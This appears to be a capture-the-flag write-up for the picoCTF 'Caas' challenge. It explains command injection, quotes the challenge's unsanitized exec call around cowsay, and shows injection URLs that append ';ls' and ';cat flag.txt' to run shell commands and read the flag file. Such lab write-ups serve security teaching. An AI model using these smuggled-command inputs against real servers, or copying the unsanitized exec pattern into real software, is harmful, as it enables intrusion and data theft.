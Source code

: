 # Caas
#### Command Injection Attacks
Command injection attacks are a type of security vulnerability where an attacker can execute arbitrary commands on a system or application by injecting malicious input. These attacks primarily occur when an application incorporates user-provided data in commands that are sent to a system shell, interpreter, or similar execution environment without proper validation or sanitation.
#### Solution
- Inspectiong the ```index.js``` file 

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/Screenshot%202023-11-04%20003926.png)

- We can see that in the following line of code the request parameter is passed to the ```cowsay``` command without any validation or sanitation

```python 
exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
```

- We can use this to execute arbitrary commands on the server

- Running the ls command using the url ```https://caas.mars.picoctf.net/cowsay/t;ls``` we get the following output

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/Screenshot%202023-11-09%20093221.png)

- Opening the falg.txt file using the url ```https://caas.mars.picoctf.net/cowsay/t;cat flag.txt``` we get the flag

![alt text](https://github.com/Apetun/CryptoniteSTP/blob/main/picoGym/Caas/eqqeq.png)